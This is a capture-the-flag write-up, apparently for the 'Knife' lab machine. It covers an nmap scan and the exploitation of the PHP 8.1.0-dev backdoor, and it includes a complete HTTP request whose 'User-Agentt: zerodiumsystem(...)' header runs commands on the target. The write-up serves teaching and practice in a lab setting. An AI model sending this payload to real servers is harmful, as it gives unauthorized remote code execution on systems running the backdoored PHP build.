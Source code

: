 ### Knife - Explore and nmapping

Starting with nmap to see what's runnng on the server:
```bat
sudo nmap -p- --min-rate 10000 -oA knife -v 10.10.10.242
```


While the nmap is running we can take a look and see if any website is running on the default port.
![website](https://is-going-to-rick-roll.me/1637881484.png)
So the website is a static page with one page (landing page)
no forms or anything special/suspicious.

Now let's check the nmap results
![nmap result](https://is-going-to-rick-roll.me/1637881600.png)
as we can see we have two ports open:
* 22 - TCP SSH
* 80 - TCP HTTP

sicne we have two options I'll go and investigate the website.
Opening burp suite and sniffing the GET for the index page returns us nothing special
![burp results](https://is-going-to-rick-roll.me/1637881755.png)
At first glance, it might look like a normal website nothing exciting.
But (as a PHP fanboy) i saw something that is really rememberable.
the X-Powerd-By line shows us that it runs PHP 8.1.0 DEVELOPMENT VERSION (which includes a backdoor)

(You can read more about this vulnerability that was released and approved for a few hours in the main repo at: https://rioasmara.com/2021/10/23/supply-chain-attack-php-8-1-0-dev-backdoor/)

After reading a bit more about this vulnerability I can understand how to run RCE.




### Using the vulnerabilities we found


So, after we found RCE in the website we cna be sure that this is the main vulnerability that will get give us the credentials we need for the SSH connection and etc.

By replacing the "User-Agent" name with "User-Agentt" we baypass the backdoor check and now we'll be able to execute code, by giving the value zerodium followed by the command we want to run.
For testing we'll try to echo "kekw".
![RCE POC](https://is-going-to-rick-roll.me/1637882393.png)
as you can see in the screenshot from Burp Suite the RCE worked and we managed to execute code.




## First Flag, owning user.
Most of the time people save flags in txt files, so because it was 1:25 AM at the time i did the first thing that came up to my mine.

```xml
GET /index.php HTTP/1.1

Host: 10.10.10.242

User-Agentt: zerodiumsystem('find . -name *.txt');

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Upgrade-Insecure-Requests: 1
```

response: ![](https://is-going-to-rick-roll.me/1637882832.png)
<br>

and here we go, inside the first file it returned we have the user flag.
we can use the RCE in order to print it (:

![back-door in PHP](https://is-going-to-rick-roll.me/1637882978.png)